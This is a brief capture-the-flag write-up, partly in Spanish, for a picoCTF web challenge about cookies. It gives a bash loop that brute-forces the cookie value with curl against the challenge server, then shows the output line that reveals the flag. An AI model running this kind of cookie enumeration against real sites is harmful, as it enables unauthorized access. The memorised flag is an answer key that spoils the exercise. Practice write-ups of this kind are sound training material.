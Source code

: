 ## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)

## Solución
```bash
─(kali㉿kali)-[~]
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:64944/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>

```
## Notas adicionales
## Referencias
